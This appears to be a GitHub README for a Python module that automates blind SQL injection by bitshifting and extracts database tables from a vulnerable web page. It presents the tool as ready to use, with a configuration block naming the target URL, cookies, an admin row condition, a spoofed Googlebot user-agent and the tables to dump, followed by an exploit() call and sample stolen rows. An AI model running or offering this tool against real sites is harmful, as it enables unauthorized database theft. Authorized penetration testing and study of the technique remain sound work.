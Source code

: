 # Blind SQL Injection via Bitshifting

This is a module that performs blind SQL injection by using the bitshifting method to **calculate** chars instead of guessing them. It requires exactly 8 requests per character.

Further efficiency is possible as specified in the original [paper](https://www.exploit-db.com/papers/17073/):

```
Further optimizing this technique can be done.
The ASCII table is just 127 characters which is 7 bits per character so we can assume we will never go over it and decrement this technique with 1 request per character.
```

This module does not make those assumptions, but can with some slight modifications. This is so that it can handle all scenarios, including edge cases.

## Usage
```
import blind-sql-bitshifting as x

# Edit this dictionary to configure attack vectors
x.options
```

### Example configuration:

```
# Vulnerable link
x.options["target"] = "http://www.example.com/index.php?id=1"

# Specify cookie (optional)
x.options["cookies"] = ""

# Specify a condition for a specific row, e.g. 'uid=1' for admin (optional)
x.options["row_condition"] = ""

# Boolean option for following redirections
x.options["follow_redirections"] = 0

# Specify user-agent
x.options["user_agent"] = "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)"

# Specify table to dump
x.options["table_name"] = "table"

# Specify columns to dump
x.options["columns"] = "col1,col2"

# String to check for on page after successful statement
x.options["truth_string"] = "<p id='header'>true</p>"
```

Then:

`x.exploit()`

This returns a 2-dimensional array, with each sub-array containing a single row, the first being the column headers.

Example output:

`[['id', 'username'], ['1', 'lol'], ['2', 'lel']]`

Optionally, your scripts can then harness the [tabulate](https://pypi.python.org/pypi/tabulate) module to output the data:

```
from tabulate import tabulate

data = x.exploit()

print tabulate(data,
               headers='firstrow',
               tablefmt='psql')
```

This would output

```
+------+------------+
|   id | username   |
|------+------------|
|    1 | lol        |
|    2 | lel        |
+------+------------+
```
